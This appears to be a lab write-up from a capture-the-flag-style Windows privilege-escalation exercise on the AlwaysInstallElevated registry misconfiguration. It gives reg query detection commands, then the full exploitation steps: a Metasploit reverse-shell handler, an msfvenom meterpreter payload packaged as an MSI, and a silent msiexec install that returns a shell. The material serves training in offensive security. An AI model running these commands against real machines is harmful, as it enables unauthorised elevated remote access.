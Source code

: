 # AlwaysInstallElevated Exploit

AlwaysInstallElevated is a registry key entry in the **`HKLM\Software\Policies\Microsoft\Windows\Installer`** and **`HKCU\Software\Policies\Microsoft\Windows\Installer`** registry keys that allows any user to install an .msi file with elevated privileges.

## Detection

Open command prompt and type: **`reg query HKLM\Software\Policies\Microsoft\Windows\Installer`**
From the output, notice that “`AlwaysInstallElevated`” value is 1

```bash
**reg query HKLM\Software\Policies\Microsoft\Windows\Installer**
```

![always](images/always.png)

In command prompt type: **`reg query HKCU\Software\Policies\Microsoft\Windows\Installer`**
From the output, notice that “`AlwaysInstallElevated`” value is 1

```bash
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```

![always2](images/always2.png)

## Exploitation

Start a multi-handler reverse shell

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.18.48.44
LHOST => 10.18.48.44
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.18.48.44:4444
```

Generate `msfvenom` exploit

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.18.48.44 lport=4444 -f msi -o setup.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of msi file: 159744 bytes
Saved as: setup.msi
```

Copy the generated file, `setup.msi`, to the target

![transfer](images/transfer.png)

Place ‘setup.msi’ in ‘`C:\Temp`’

Run the following command:

```bash
msiexec /quiet /qn /i C:\Temp\setup.msi
```

![execute](images/execute.png)

Receive reverse shell

![shell](images/shell.png)
